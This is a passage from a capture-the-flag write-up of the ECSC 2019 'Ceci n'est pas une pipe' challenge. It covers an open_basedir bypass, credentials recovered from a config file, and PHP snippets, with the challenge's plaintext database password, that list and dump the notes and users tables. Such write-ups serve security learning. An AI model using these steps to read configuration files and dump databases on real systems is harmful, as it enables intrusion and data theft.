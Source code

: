And it works!

![ECSC 2019 - Ceci n'est pas une pipe - Bypassing open_basedir restriction](/img/ecsc-2019-ceci-nest-pas-une-pipe-bypass-open_basedir-restriction.png)

It even looks better when displaying the source of the generated page:

![ECSC 2019 - Ceci n'est pas une pipe - Bypassing open_basedir restriction source](/img/ecsc-2019-ceci-nest-pas-une-pipe-bypass-open_basedir-restriction-source.png)

So now we can have a look at all the source files!

## The (wrong) path to SQL

Remember the `config.php` file from enumeration at the begining? Maybe the flag is there?

![ECSC 2019 - Ceci n'est pas une pipe - Get DB credz! wOOt!](/img/ecsc-2019-ceci-nest-pas-une-pipe-get-db-credz.png)

Flag is not in the `config.php` :-(, but we got DB credz, wOOt!<br>
Maybe the flag is in the DB?

Let's find out and start by listing the tables that are in the `notes` DB:

```php
<?php
    echo "DOTAN3 - START";
    $c = mysqli_connect("mariadb", "notes", "N9mpnvEyTtaGxfsznEBh", "notes");
    foreach ($c->query('SHOW TABLES;') as $row) {
      var_dump($row);
    }
    echo "DOTAN3 - END";
?>
```

We get two tables, `notes` and `users`:

![ECSC 2019 - Ceci n'est pas une pipe - Tables in notes DB](/img/ecsc-2019-ceci-nest-pas-une-pipe-listing-notes-db-tables.png)

Let's dump them!

```php
<?php
    echo "DOTAN3 - START";
    $c = mysqli_connect("mariadb", "notes", "N9mpnvEyTtaGxfsznEBh", "notes");
    foreach ($c->query('SELECT * FROM notes;') as $row) {
      var_dump($row);
    }
    foreach ($c->query('SELECT * FROM users;') as $row) {
      var_dump($row);
    }
    echo "DOTAN3 - END";
?>
```

Haha I get instantly XSSed :P

![ECSC 2019 - Ceci n'est pas une pipe - Dumping notes and users tables](/img/ecsc-2019-ceci-nest-pas-une-pipe-dumping-notes-users-tables.png)

